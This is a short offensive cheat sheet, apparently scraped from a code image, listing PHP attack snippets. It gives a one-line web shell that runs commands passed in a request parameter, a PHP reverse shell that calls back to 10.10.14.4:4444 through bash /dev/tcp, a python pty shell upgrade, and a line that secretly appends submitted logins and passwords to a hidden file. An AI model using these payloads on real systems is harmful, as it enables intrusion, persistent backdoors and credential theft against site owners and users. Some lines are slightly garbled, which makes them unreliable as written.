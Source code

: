 # PHP

# CMD
    <?php system($_REQUEST['pwn']); ?>

  inddex.php?pwn=ls

# ReverseShell

<?php system ('bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"'); ?>

python -c 'import pty;pty.spawn('/bin/bash')'
# Запись в файл переменных

file_put_contents(".max", $_POST['log'] . ":" . $_POST['pwd'] . "\n" , FILE_APPEND);
